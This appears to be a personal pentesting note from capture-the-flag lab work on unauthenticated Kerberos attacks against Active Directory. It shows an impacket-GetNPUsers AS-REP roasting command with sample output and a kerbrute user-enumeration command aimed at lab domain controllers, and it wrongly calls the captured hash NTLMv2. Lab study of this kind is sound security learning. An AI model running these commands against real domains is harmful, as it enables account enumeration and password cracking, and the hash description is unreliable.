 #### Unauthenticated

If we get valid users we can try to request TGT tickets to authenticate as another user:

#Note Remember to add the name of the domain controller into the /etc/hosts for this command to work.
```bash
impacket-GetNPUsers scrm.local/ -no-pass -usersfile ../content/validUsers
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User ASMITH@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JHALL@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User KSIMPSON@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User KHICKS@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SJENKINS@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

#### Kerbrute
Kerbrute extracts the NTLMv2 hash automatically if two conditions are meet:
* If the user is valid.
* If the user has no pre auth required.
```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 /usr/share/seclists/Kerberos/A-ZSurnames.txt
```
[[Sauna#^9e845d]]
